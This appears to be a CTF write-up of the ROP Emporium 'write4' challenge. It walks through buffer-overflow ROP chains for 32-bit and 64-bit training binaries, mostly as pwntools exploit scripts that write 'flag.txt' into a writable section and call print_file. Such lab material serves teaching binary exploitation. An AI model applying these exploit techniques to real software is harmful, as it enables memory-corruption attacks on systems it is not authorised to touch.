 # WRITE4

In this challenge, we got to explore how writes are possible with gadgets, their effects and limitations.

## 32-bit

Most of the explanation goes here.

<details>
  <summary><b>Solution:</b></summary>
  
  ### Information gathering
  
Functions and addresses:

```
0x080483b0  pwnme@plt
0x08048538  print_file@plt
0x08048506  main
0x0804852a  usefulFunction
0x08048543  usefulGadgets
0x080485d0  "nonexistent"
```

We can see there's a `usefulGadgets` function (see explanation in next part):

```
   0x08048543 <+0>:     mov    DWORD PTR [edi],ebp
   0x08048545 <+2>:     ret
```
  
  There are other gadgets that we'll definitely use as well:

``` py
Gadget(0x8048472, ['add esp, 0x10', 'leave', 'ret'], ['ebp', 'esp'], 0x2540be413)
Gadget(0x80485a5, ['add esp, 0xc', 'pop ebx', 'pop esi', 'pop edi', 'pop ebp', 'ret'], ['ebx', 'esi', 'edi', 'ebp'], 0x20)
Gadget(0x804839a, ['add esp, 8', 'pop ebx', 'ret'], ['ebx'], 0x10)
Gadget(0x8048475, ['leave', 'ret'], ['ebp', 'esp'], 0x2540be403)
Gadget(0x80485ab, ['pop ebp', 'ret'], ['ebp'], 0x8)
Gadget(0x80485a8, ['pop ebx', 'pop esi', 'pop edi', 'pop ebp', 'ret'], ['ebx', 'esi', 'edi', 'ebp'], 0x14)
Gadget(0x804839d, ['pop ebx', 'ret'], ['ebx'], 0x8)
Gadget(0x80485aa, ['pop edi', 'pop ebp', 'ret'], ['edi', 'ebp'], 0xc)
Gadget(0x80485a9, ['pop esi', 'pop edi', 'pop ebp', 'ret'], ['esi', 'edi', 'ebp'], 0x10)
Gadget(0x8048386, ['ret'], [], 0x4)
```
  
  Immediately we can see `0x80485aa` matches what we have in `usefulGadgets`.
  
  ### First ideas (blind), data write, and ELF sections overview
  
  <details>
    <summary>Some noobish ideas (<i>skip if you already know about ASLR</i>):</summary>
  
  **Idea 1** (set string on top of stack and invoke call):
  
```bash
r < <(python3 -c 'from pwn import *;\
import sys;\
p = b"flag.txt\x00";\
p += b"A"*(40-len(p)) + p32(0xffffd060) + p32(0x08048538) + p32(0xffffd060);\
sys.stdout.buffer.write(p)\
')
```
  
  ![ecx_fail](https://user-images.githubusercontent.com/114584910/197831251-cf5df572-8f81-443b-ab1e-d09db420831a.png)

  We're seeing the `flag.txt` string, but the final string got mumbled - maybe it was overwritten by other code.
  Let's try another idea:
  
  **Idea 2** (set string lower in the stack and invoke call):
  
```bash
r < <(python3 -c 'from pwn import *;\
import sys;\
ebp = 0xffffccd8;\
p = b"A"*(40) + p32(ebp) + p32(0x08048538) + p32(ebp+12) + b"flag.txt\x00";\
sys.stdout.buffer.write(p)\
')
```
  
  ![bottomstack_success](https://user-images.githubusercontent.com/114584910/197832841-42426048-80c4-4136-b906-bc6eb60a1b41.png)

  Did we solve the challenge this easily? Let's check with pwntools:
  
```py
from pwn import *
p = process('./write432')
ebp = 0xffffccd8
p.sendafter(b"> ", b"A"*(40) + p32(ebp) + p32(0x08048538) + p32(ebp+12) + b"flag.txt\x00")
p.interactive()
```
  
  ![bottomstack_fail](https://user-images.githubusercontent.com/114584910/197833138-4eb1afa5-1685-49a3-803c-4997dace69c8.png)
  
  The difference in behavior can be explained by [Address Space Layout Randomization](https://en.wikipedia.org/wiki/Address_space_layout_randomization), an OS-level protection to ROP.
  While [this answer at StackOverlow](https://stackoverflow.com/a/10063909) explained the matter in detail, a quick summary goes as follows:
  memory spaces for the **stack, heap and external libraries are randomized** for systems with ASLR turned on, or when the binary has Position Independent Execution (PIE).
  
  GDB has this turned off by default to ease debugging so the address only changes upon restart.
  This is not the case when the program is called in other ways.
  While this *can* be alleviated by turning ASLR off, in CTF settings we can't just turn ASLR off in the server machine so it's better to write the `flag.txt\x00` string at some static address.
  </details>
  
  Let's look at the `usefulGadgets` gadget:

  ```
     0x08048543 <+0>:     mov    DWORD PTR [edi],ebp
     0x08048545 <+2>:     ret
  ```

  I'm new to assembly, but it isn't hard to find [what the square brackets mean](https://stackoverflow.com/a/48608575).
  The key insight is *if we can control `edi` and `ebp`, we can have arbitrary write to static location pointed by `edi`, thus "arbitrary write".
  
  My immediate idea was to overwrite the "nonexistent" string and call `usefulFunction`.
  Let's write an ROP chain for that.
  
```bash
r < <(python3 -c 'from pwn import *;\
import sys;\
ebp = 0xffffccd8; #not important\
existent=0x080485d0;\
gadget=0x08048543;\
pops=0x80485aa;\
sys.stdout.buffer.write(\
b"A"*(40)+p32(ebp)+\
p32(pops) + p32(existent+0) + b"flag" + p32(gadget)+\
p32(pops) + p32(existent+4) + b".txt" + p32(gadget)+\
p32(pops) + p32(existent+8) + p32(0)  + p32(gadget)+\
p32(0x0804852a))\
')
```
  
![first_idea_fail](https://user-images.githubusercontent.com/114584910/197834973-2a6e680d-95b3-4c1b-9068-0f92e241a626.png)

Despite seting `edi` and `ebp` correctly, the program gave a segfault. With some research I understood the reason:
`nonexistent` is in the [.rodata](https://blog.katastros.com/a?ID=00750-f28db8b2-67f6-4a3b-b10c-1495756e3c58) section and is read-only.
  
~After failing to overwrite some blank spaces after `RET` in some function~, then I decided to [look at which section is writeable](https://stackoverflow.com/questions/10972451/which-sections-in-memory-are-writable) by using the `readelf -l` command.
Here is a brief [overview of ELF sections](https://www.binaryexploitation.org/executable-formats/elf-format/elf-sections).
  
![no_more_guessing](https://user-images.githubusercontent.com/114584910/197836359-1ec3c57c-e75a-48fd-a013-80cd4c9fdd57.png)

So `.init_array .fini_array .dynamic .got .got.plt .data .bss` and the stack is writeable.

### Crafting payload

It seems unwise to write on `.got`, `.*_array` and naturally I looked at `.data` and `.bss`, and there are 12 bytes (`0x0804a018` ~ `0x0804a023`).
*Maybe* it's what I need:
  
```bash
r < <(python3 -c 'from pwn import *;\
import sys;\
ebp = 0xffffccd8; #not important\
existent=0x0804a018;\
gadget=0x08048543;\
pops=0x80485aa;\
sys.stdout.buffer.write(\
b"A"*(40)+p32(ebp)+\
p32(pops) + p32(existent+0) + b"flag" + p32(gadget)+\
p32(pops) + p32(existent+4) + b".txt" + p32(gadget)+\
p32(pops) + p32(existent+8) + p32(0)  + p32(gadget)+\
p32(0x08048538) + p32(existent))\
')
```
  
  ![beautiful](https://user-images.githubusercontent.com/114584910/197837216-eeda0ef2-a405-4ead-89fe-60a5f6a89e19.png)

  Double checking in pwntools:
  
  ![pwn_success](https://user-images.githubusercontent.com/114584910/197837664-21415985-8d86-41cb-8fda-755c2e7069cb.png)
</details>

## 64-bit

Practically the same exploit.
  
<details>
  <summary><b>Solution:</b></summary>
  
  ### Information gathering
  
  ![readelf](https://user-images.githubusercontent.com/114584910/197838263-f197e64e-8982-4d1e-bae4-48f8c2061396.png)
  
  ![ghidra](https://user-images.githubusercontent.com/114584910/197838256-680ee592-89dc-46f6-a845-77aea421732f.png)
  
  Useful addresses:
  
```
In usefulGadgets:
   0x0000000000400628 <+0>:	mov    QWORD PTR [r14],r15
   0x000000000040062b <+3>:	ret

In usefulFunction:
   0x0000000000400620 <+9>:	call   0x400510 <print_file@plt>
```

  Gadgets:
```py
>>> from pwn import *
>>> context.binary = 'write4'
>>> r = ROP(context.binary)
>>> r.r14
Gadget(0x400690, ['pop r14', 'pop r15', 'ret'], ['r14', 'r15'], 0x18)
>>> r.rdi # don't forget this in the final function call
Gadget(0x400693, ['pop rdi', 'ret'], ['rdi'], 0x10)
```
  
  ### Crafting payload
  
  We can immediately craft the chain as follows:
  
```py
from pwn import *
existent=0x601028
gadget=0x400628
pops=0x400690

p=process('write4')
p.sendafter(b"> ", b"A"*(40)+
p64(pops) + p64(existent+0) + b"flag.txt" + p64(gadget)+
p64(pops) + p64(existent+8) + p64(0)  + p64(gadget)+
p64(0x400693) + p64(existent) + p64(0x400620))
p.interactive()
```
</details>
  
## Other helpful tips on using GDB:

- Dynamically linked functions cannot be disassembled initially in gdb because the actual addresses were not known.
- Running the functions once loads the addresses and solve the issue.
- `Ctrl+C` can be used to break the program execution *without quitting the program*, and the execution can be continued by entering `c`.
